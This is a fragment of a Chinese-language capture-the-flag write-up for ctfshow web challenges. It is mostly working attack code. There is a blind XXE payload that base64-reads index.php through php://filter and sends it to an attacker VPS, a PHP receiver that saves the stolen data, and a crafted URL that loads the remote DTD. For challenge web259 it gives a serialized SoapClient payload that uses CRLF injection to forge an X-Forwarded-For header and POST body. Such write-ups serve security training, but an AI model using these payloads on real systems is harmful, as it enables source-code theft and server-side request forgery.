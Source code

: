 send.xml：

```xml
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
    <!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://47.xxx.xxx.72/send.php?file=%file;'>">
```

send.php：

```xml
    <?php 
    file_put_contents("result.txt", $_GET['file']) ;
    ?>
```

然后在url中构造如下：

`/show.php?module=SimpleXMLElement&args[]=http://47.xxx.xxx.72/evil.xml&args[]=2&args[]=true`

这样目标主机就能先加载我们vps上的evil.xml，再加载send.xml。

如下图所示，成功将网站的源码以base64编码的形式读取并带出到result.txt中：

后续解题过程就不写了。

### 题目

#### web259

题目描述：

```php
//flag.php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
    file_put_contents('flag.txt',$flag);
 }
}
//index.php
<?php
highlight_file(__FILE__);
$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();

//payload
<?php
$ua = "kradress\r\nX-Forwarded-For: 127.0.0.1,127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";
$client = new SoapClient(null,array('uri' => 'http://127.0.0.1/' , 'location' => 'http://127.0.0.1/flag.php', 'user_agent' => $ua));

echo(urlencode(serialize($client)));


```
